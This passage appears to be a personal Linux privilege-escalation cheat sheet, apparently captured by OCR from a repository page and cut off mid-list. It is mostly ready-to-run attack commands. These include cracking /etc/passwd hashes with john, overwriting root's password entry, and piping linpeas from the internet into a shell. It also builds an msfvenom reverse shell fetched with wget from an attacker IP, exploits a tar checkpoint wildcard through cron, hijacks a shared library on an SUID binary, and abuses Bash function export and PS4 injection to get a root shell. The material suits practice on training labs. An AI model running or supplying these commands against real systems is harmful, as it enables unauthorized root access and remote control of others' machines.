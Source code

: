 ```) ,finally `john --show hash` 
- check if `/etc/passwd` modifyable ,if it is then > download `/etc/passwd` > create a pass with openssl passwd  ,modify the root line `root:x:0:0:root:/root:/bin/bash` to `root:[password_from_openssl]:0:0:root:/root:/bin/bash`

- (switching user via `/etc/passwd` cracking) `cat /etc/passwd` ,get the users hashes ,save them in a file ,crack it with `john hash_file wordlist=/ust/share/wordlists/rockyou.txt`

- **(finding ssh folder in target machine)`find / -type f -name .ssh 2>/dev/null`**

- if there's a file running with root permissions ,you can either edit it (if editable) with changing as a root reverse shell to a new listener or setuid exploit(serch for it in internet)

- ***(linpeas one liner) `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`***

***
**Complicated Manual ways :**
1:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf` [transfer the file to the target]
[cd user's home directory]
`wget http://11.11.11.11:80/shell.elf`
`chmod +x /home/user/shell.elf`
`nc -nvlp 4444` [**do not run the program ,it's a crotab job ,it will automatically spawn root shell on the listener**]
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
2:
```
/usr/local/bin/suid-so
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
```
3:
*"In **Bash versions <4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.*

**Verify the version of Bash installed on the Debian VM is less than 4.2-048:"**
```
/bin/bash --version
bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```
4:
"**Note: This will not work on Bash versions 4.4 and above.**

*When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.*

*Run the `/usr/local/bin/suid-env2` executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:"*
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```
5: (this one generally fits to real life)
```